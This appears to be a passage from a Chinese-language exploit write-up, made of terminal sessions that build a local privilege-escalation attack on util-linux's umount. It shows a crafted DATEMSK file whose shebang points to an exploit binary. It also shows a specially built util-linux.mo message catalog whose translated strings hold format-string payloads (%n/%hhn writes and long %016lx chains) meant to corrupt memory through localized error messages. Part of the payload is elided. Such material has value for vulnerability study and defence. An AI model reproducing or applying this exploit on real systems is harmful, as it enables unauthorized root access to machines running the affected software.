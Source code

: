 ```
10 directories, 5 files 
invincible@ubuntu:/proc/10013/cwd$ cat DATEMSK 
#!/home/invincible/Desktop/test/exp
unused
invincible@ubuntu:/proc/10013/cwd$ file DATEMSK 
DATEMSK: a /home/invincible/Desktop/test/exp script, ASCII text executable

invincible@ubuntu:/proc/10013/cwd$ 
invincible@ubuntu:/proc/10013/cwd$ file ready 
ready: empty


invincible@ubuntu:/proc/10013/cwd$ file (unreachable)/tmp/from_archive/C.UTF-8/LC_MESSAGES/util-linux.mo 
(省略...)/util-linux.mo: GNU message catalog (little endian), revision 0.0, 4 messages


invincible@ubuntu:/proc/10013/cwd$ file (unreachable)/tmp/from_archive/X.X/LC_MESSAGES/util-linux.mo 
(省略...)/util-linux.mo: fifo (named pipe)
```

构造的DATEMSK文件内容为/proc/self/exe符号链接指向的文件:

```
invincible@ubuntu:/proc/10013/cwd$ cat DATEMSK 
#!/home/invincible/Desktop/test/exp
unused
invincible@ubuntu:/proc/10013/cwd$ file DATEMSK 
DATEMSK: a /home/invincible/Desktop/test/exp script, ASCII text executabl
```

构造特制的util-linux.mo文件内容:

```
invincible@ubuntu:~/Desktop/test$ msgunfmt util-linux.mo -o util-linux.po
invincible@ubuntu:~/Desktop/test$ cat util-linux.po 
msgid ""
msgstr ""
"Language: enn"
"MIME-Version: 1.0n"
"Content-Type: text/plain; charset=UTF-8n"
"Content-Transfer-Encoding: 8bitn"


msgid "%s: mountpoint not found"
msgstr "1234"


msgid "%s: not mounted"
msgstr ""
"AA%6$lnAAAAAA%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx"
(省略... 共256个%16lx)
"%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx"
"%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%016lx%1$68hhx%256$hhn"


msgid ""
"%s: target is busyn"
"        (In some cases useful info about processes thatn"
"         use the device is found by lsof(8) or fuser(1).)"
msgstr "5678"
invincible@ubuntu:~/Desktop/test$
```
